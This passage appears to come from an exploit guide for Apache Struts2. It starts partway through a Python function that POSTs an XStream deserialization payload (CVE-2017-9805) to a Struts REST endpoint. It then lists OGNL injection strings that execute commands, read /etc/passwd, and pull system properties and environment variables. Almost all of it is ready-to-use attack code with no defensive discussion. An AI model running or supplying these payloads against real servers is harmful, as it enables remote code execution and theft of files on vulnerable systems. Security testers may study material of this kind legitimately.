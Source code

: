 ```python
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
    """
    
    headers = {
        'Content-Type': 'application/xml'
    }
    
    response = requests.post(url, data=xml_payload, headers=headers)
    return response

# Usage
exploit_2017_9805("http://localhost:8086/struts2-rest-showcase/orders")
```

## OGNL Injection Patterns

### Basic OGNL Expressions
```java
// Command execution
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#cmd='whoami').(#p=new java.lang.ProcessBuilder(#cmd)).(#process=#p.start())}

// File reading
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess=#dm).(#a=@java.nio.file.Files@readAllLines(@java.nio.file.Paths@get('/etc/passwd'))).(#a)}

// System property access
%{@java.lang.System@getProperty('user.home')}

// Environment variables
%{@java.lang.System@getenv('PATH')}
```
